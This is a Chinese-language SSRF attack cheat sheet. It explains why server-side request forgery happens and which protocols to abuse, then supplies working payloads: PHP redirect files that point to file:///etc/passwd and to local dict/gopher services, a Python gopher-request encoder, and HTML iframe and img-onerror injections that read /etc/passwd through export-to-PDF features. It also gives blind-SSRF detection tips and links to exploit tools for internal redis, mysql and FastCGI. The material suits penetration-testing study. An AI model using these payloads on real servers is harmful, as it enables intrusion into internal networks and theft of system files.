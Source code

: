 # SSRF

## 漏洞成因：

web服务器经常需要从别的服务器获取数据，比如文件载入、图片拉取、图片识别等功能，如果获取数据的服务器地址可控，攻击者就可以通过web服务器自定义向别的服务器发出请求。因为web服务器常搭建在DMZ区域，因此常被攻击者当作跳板，向内网服务器发出请求。
> DMZ区域
>
> DMZ（Demilitarized Zone）是网络安全中的一个术语，它指的是位于内部网络和外部网络之间的一个隔离区域。DMZ提供了一个额外的安全层，用于分离和保护内部网络中的敏感系统和数据免受来自外部网络的攻击。
>
> 在一个典型的网络架构中，DMZ通常位于防火墙内部，同时连接着外部网络和内部网络。DMZ中放置了一些对外服务，如Web服务器、邮件服务器等。这些对外服务需要与外部网络进行通信，但又不能直接接触内部网络中的敏感系统和数据。

## 协议

ssrf常用的协议：http/https、dict、file、gopher、sftp、ldap、tftp

### http/https

当ssrf限制只能使用http或https协议，可通过Header函数绕过限制。在vps创建一个302.php的文件，根据需求设置协议类

举例

    <?php
    header("Location: file:///etc/passwd");
    ?>
    
    <?php
    header("Location: dict://127.0.0.1:6666/info");
    ?>
    
    <?php
    header("Location: gopher://127.0.0.1:6666/info");
    ?>

### gopher

#### 利用gopher协议发送POST请求

参考：https://blog.csdn.net/weixin_45887311/article/details/107327706

脚本举例

    import urllib.parse
    test =\
    """POST / HTTP/1.1
    Host: 127.0.0.1:8000
    """  
    #以上内容放置请求包内容，注意后面一定要有回车，回车结尾表示http请求结束
    tmp = urllib.parse.quote(test)
    new = tmp.replace('%0A','%0D%0A')
    result = '_'+new
    print(result)

除了发出HTTP请求外，gopher协议还常被用来攻击内网redis、Zabbix、FastCGI、mysql等服务
利用工具：

    https://github.com/tarunkant/Gopherus

## 利用

所有需要输入url的地方都可以尝试ssrf，将url改成dnslog地址，验证请求IP是否来自web服务器：

* 远程图片拉取
* xls，doc等文件预览
* 头像加载
* 其他网站的访问截图

ssrf漏洞可分为有回显型和无回显型

### 回显型

有回显型ssrf可以直接通过页面加载出目标资产，可先尝试加载http://www.baidu.com 页面确认有ssrf，如果成功的话，可进一步将百度换成内网IP，通过fuzz扫描内网资产。

#### 场景

##### SVG SSRF

由于 SVG 的功能十分丰富，所以能够处理SVG 的服务器就很有可能遭受到 SSRF、XSS、RCE 等的攻击，特别是在没有禁用一些特殊字符的情况下。

svg攻击payload

    https://github.com/allanlw/svg-cheatsheet
    
##### 导出功能SSRF

有些网站存在功能，能够将一些将数据分析的表格导出为pdf或者图片，当POST数据包中，以html文件内容作为传输，则这里可能存在ssrf漏洞

我们将html内容修改为

    svg><iframe src="攻击者服务器ip" width="800" height="850"/></svg>
    
通过攻击者服务器进行302重定向

    <iframe+src=攻击者服务器302重定向的地址">
     
    原理：
    通过header设置Location: file:///etc/passwd
    
常规payload

    <iframe src="file:///etc/password">
    document.location
    <img src=x onerror="document.write(document.location)"/>
    <img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
    <link rel=attachment href="file:///etc/passwd">
    <img src=x onerror=document.write(window.location)>
  

### 无回显型

无回显型ssrf的检测需要先配合dnslog平台，测试dnslog平台能否获取到服务器的访问记录，如果没有对应记录，也可能是服务器不出网造成的，
利用时可以通过请求响应时间判断内网资产是否存在，
然后再利用内网资产漏洞（比如redis以及常见可RCE的web框架）证明漏洞的有效性。
或者可以尝试寻找内网的Confluence, Jenkins等资产，这篇文章是专门介绍bind ssrf利用技巧的，可以作为参考：

    https://github.com/assetnote/blind-ssrf-chains
